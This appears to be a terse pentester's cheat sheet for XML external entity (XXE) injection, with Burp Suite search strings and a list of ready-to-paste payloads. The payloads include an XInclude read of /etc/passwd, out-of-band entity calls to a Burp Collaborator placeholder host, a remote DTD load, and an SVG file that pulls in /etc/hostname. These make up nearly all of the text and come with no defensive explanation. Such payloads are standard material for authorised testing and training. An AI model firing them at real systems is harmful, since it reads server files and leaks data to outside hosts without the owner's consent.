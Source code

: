 XXE

burpsuite search:
<?xml
<!DOCTYPE
<!ENTITY

Try in each param
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> 
